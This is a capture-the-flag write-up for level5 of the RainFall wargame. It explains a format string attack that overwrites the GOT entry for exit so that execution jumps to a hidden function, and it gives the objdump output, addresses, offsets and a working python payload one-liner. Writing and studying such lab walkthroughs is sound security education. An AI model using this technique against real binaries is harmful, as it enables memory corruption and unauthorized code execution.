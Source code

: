 We open the binary in [dogbolt](https://dogbolt.org/). We can see that we have to call the function `o`.
Here will do the same as previous levels using printf.

First We find will the address where to write.
Here we see that the `n` function does `return` but instead use a `exit` so it doesn't return in main.
Here the address to overwrite is the address of the exit function.
Ok we will do a GOT overwrite, when a program is executed it initialized the GOT (Global offset Table) for every external function (lib function),
it will cache memory address in the GOT so it doesn't have to ask the lib (here libc) for every external function call.

```Shell
level5@RainFall:~$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

here the address is : 08049838
in little endian : /x38/x98/x04/x08

The address of `o`.

```Shell
level5@RainFall:~$ objdump -t level5
...
080484a4 g     F .text  0000001e              o
...
```

address : 080484a4
converted in decimal : 134513828

Let's find the offset of the buffer :

```Shell
level5@RainFall:~$ ./level5
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

Here we find the address of the buffer at %4$p

Let's put this together:
Here we do not forget to subtract 4 bytes for the address

```Shell
python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit1 && cat /tmp/exploit1 - | ./level5
```

To go further :
https://axcheron.github.io/exploit-101-format-strings/
